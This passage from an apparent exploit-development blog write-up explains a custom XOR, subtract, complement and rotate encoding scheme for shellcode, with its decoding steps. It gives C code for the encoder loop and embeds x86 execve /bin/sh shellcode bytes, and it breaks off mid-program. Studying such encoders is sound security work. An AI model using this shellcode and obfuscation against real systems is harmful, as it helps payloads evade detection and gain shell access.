 1. provide a bitwise exclusive OR operation **(xor)** to every byte in sequence with value **0x2c**
2. **subtract** every byte with value **0x2**
3. apply ones' complement&nbsp; arithmetic operation
4. perform a **4 bits right rotation (ror)** to every byte in shellcode

The above encoding pattern implemented using the code snippet below

```c
// apply the encoding scheme 
for (i=0; i < strlen(shellcode2); i++) 
{ 
// XOR every byte with 0x2c 
shellcode2[i] = shellcode2[i] ^ XORVAL; 
// decrease every byte by 2 
shellcode2[i] = shellcode2[i] - DEC; 
// ones' complement
shellcode2[i] = ~shellcode2[i];  
// perform the ror method 
shellcode2[i] = (shellcode2[i] << rot) | (shellcode2[i] >> sizeof(shellcode2[i])*(8-rot));
}
```

The following diagram depicts the result from the custom encoding process

![encoded]({{ site.baseurl }}/assets/images/2019/12/encoded-2.png)

Later on, the decoding process will take place, providing a reverse operation to the encoded bytes. The following steps used to decode the encoded payload

1. perform a **4 bits left rotation** **(rol)** to every byte in shellcode
2. apply ones' complement&nbsp; arithmetic operation
3. **add** value **0x2** to every byte in sequence
4. provide a bitwise exclusive OR operation **(xor)** to every byte with value **0x2c**

The following diagram depicts the result from the custom decoding process

![decoding]({{ site.baseurl }}/assets/images/2019/12/decoding.png?w=1024)

Afterwards, when the decoding process finishes, it is time to remove the extra bytes from every odd number location, shifting the bytes left.

![removing]({{ site.baseurl }}/assets/images/2019/12/removing.png?w=1024)

### The Custom Encoder

For the encoding phase, the payload used to encode is the execve which executes the /bin/sh command. The custom encoder has been implemented as shown below

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define DEC 0x2 // the value that will be used to subtract every byte
#define XORVAL 0x2c // the value that will be used to xor with every byte

// execve stack shellcode /bin/sh
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main()
{
int rot = 4; //right rotation 4 bits
```